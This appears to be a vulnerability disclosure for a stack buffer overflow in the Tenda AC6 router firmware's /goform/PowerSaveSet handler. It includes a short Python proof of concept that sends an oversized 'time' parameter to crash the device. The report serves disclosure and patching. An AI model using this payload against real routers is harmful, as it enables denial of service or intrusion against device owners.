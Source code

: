 # Bug Report: Buffer Overflow in Tenda AC6 15.03.06.50 Router
A buffer overflow vulnerability has been identified in the Tenda AC6 15.03.06.50 router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
The vulnerable code path processes HTTP requests to the `/goform/PowerSaveSet`. When `time` is specified with excessive data, the buffer overflow occurs during `sprintf`.

![alt text](image-1.png)
## poc
![alt text](image.png)

## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'time': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = b'3:33-3:' + 0x100 * b'A'
send_payload("http://10.10.10.1/goform/PowerSaveSet", payload)
```
